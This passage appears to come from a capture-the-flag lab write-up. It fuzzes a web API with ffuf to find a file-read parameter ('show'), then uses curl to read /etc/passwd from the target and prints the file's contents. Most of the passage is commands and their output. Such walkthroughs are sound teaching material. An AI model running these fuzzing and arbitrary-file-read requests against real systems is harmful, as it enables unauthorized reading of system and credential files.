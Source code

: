 ## Fuzzing API (v1) with FFuF
With the previous hint, fuzzing the api for a possible parameter to read files seems like a logical choice.

```bash
┌──(viorage㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/dirb/common.txt -u  "http://10.10.111.74:5000/api/v1/resources/books?FUZZ=/etc/passwd"                                                                         1 ⨯

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.111.74:5000/api/v1/resources/books?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

author                  [Status: 200, Size: 3, Words: 1, Lines: 2, Duration: 226ms]
id                      [Status: 200, Size: 3, Words: 1, Lines: 2, Duration: 226ms]
published               [Status: 200, Size: 3, Words: 1, Lines: 2, Duration: 229ms]
show                    [Status: 200, Size: 1555, Words: 9, Lines: 31, Duration: 224ms]
```

It looks like the show parameter might be vulnerable to injection.

---

## Testing for Injection
The show parameter is vulnerable to injected, allowing arbitrary file reads

```bash
┌──(viorage㉿kali)-[~]
└─$ curl -s http://10.10.111.74:5000/api/v1/resources/books?show=/etc/passwd                                               
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```